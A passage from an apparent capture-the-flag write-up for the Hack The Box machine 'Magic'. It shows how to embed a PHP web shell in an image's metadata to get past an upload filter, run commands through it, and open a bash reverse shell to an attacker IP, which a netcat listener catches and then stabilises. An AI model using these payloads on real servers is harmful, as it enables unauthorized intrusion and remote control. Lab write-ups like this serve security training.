 Let us then try to upload a normal image file onto http://magic.htb/upload.php. We realize that the uploaded image can then be found at http://magic.htb/images/upload/index.png

Next, we shall try to bypass magic headers to upload the file. This time, we are able to successfully upload the image file. 

```
┌──(kali㉿kali)-[~/Desktop]
└─$ exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' exploit.png
    1 image files updated
                                                  
┌──(kali㉿kali)-[~/Desktop]
└─$ mv exploit.png exploit.php.png
```

Navigating to http://magic.htb/images/uploads/exploit.php.png?cmd=id, we realize that the id command has been successfully executed.

![File Upload Vulnerability](https://github.com/joelczk/writeups/blob/main/HTB/Images/Magic/file_upload_vuln.png)

### Obtaining reverse shell
Using the file upload vulnerability that we have found previously, we will be able to execute a reverse shell command. 

By visiting http://magic.htb/images/uploads/exploit.php.png?cmd=%2Fbin%2Fbash%20-c%20%27%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.8%2F4000%200%3E%261%27, we will be able to spawn a reverse shell. 

All we have to do now is to stabilize the reverse shell.

```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 4000
listening on [any] 4000 ...
connect to [10.10.16.8] from (UNKNOWN) [10.10.10.185] 41020
bash: cannot set terminal process group (1179): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/var/www/Magic/images/uploads$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@ubuntu:/var/www/Magic/images/uploads$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<ads$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ubuntu:/var/www/Magic/images/uploads$ export TERM=xterm
export TERM=xterm
www-data@ubuntu:/var/www/Magic/images/uploads$ stty cols 132 rows 34
stty cols 132 rows 34
www-data@ubuntu:/var/www/Magic/images/uploads$ 
```

### Privilege Escalation to theseus 
However, we realize that we do not have the required permissions to view the user flag in the theseus directory. 
